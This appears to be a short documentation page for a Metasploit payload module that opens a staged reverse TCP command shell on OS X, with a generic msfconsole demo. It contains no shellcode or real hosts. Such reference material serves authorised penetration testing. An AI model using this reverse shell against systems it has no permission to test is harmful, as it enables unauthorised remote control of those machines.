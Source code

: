 ## OS X (vfork) Command Shell, Reverse TCP Stager

Call vfork() if necessary and spawn a command shell 
(staged). Connect, read length, read buffer, execute


## Module Name
payload/osx/x86/vforkshell/reverse_tcp

## Authors
* ddz





## Platforms
* osx

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/osx/x86/vforkshell/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    